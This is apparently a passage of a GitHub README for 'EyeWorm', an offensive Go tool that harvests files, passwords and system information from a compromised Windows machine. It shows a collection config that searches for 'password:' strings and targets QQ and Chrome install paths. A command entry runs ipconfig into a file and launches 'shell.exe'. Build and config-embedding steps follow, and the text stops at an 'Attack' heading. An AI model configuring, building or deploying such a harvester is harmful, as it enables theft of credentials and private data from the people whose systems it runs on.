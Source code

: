 ```
        "ContentKeys": ["\"_id\":","password:"],       //Matching keywords for content collection, collection of content files, and folder city ContentKeys optional fields
        
        "FileName":["*c","a?b","*"],                    //File name matching words, mandatory fields for files and folders         
        
        "SuffixTypes":[".txt"],                         // Search file suffix, file, folder mandatory field
        
        "Explain": "文件及文件夹收集,支持 * 通配符  ",   //Rule Function and Configuration Description Comment Fields
        
        "Commands":["set && ipconfig/all >>info.txt &&start 'E:\shell.exe'"],    // Commands to be executed in command collection, mandatory fields for command collection)
        
        "ProcessName": ["QQ.exe","Chrome.exe"],                 // The process in process collection. It is a required field for process collection. Process collection is mainly used to obtain the corresponding path according to the current system running process, and quickly locate the path of the configuration file or key file in the custom installation scenario
        
        "DeCrypt": false,                                     //  Reserved field, native file or data decryption function (todo)
        
        "DeCryptCommand": null                                //Reserved word decryption command （todo）
        
    },`
```

## Compile and Updating Configuration File

### Compile

Enter PackSource，After configuring  ico，EyeConfig.json，versioninfo.json，main.manifest. run PackSource Go to get main.syso generated in the EyeWorm directory

Back to the EyeWorm directory, go build

### Updating Configuration File

In consideration of convenience and security, the collection configuration file is embedded in the exe. The EXE and section table compiled by go are different from other compilers to avoid the trouble of repeated compilation. The UpdateSource tool is provided to update the embedded EyeConfig Json configuration file. In consideration of the subsequent implementation of Linux, this part is likely to need to be reconstructed in the future. How to use it:

1. Compile the content in UpdateSource to get the update tool UpdateSource.exe
2. Modify your own EyeConfig.json
3. `UpdateSource.exe -File=Eyeworm.exe -Data=EyeConfig.json`   To update!

### Attack
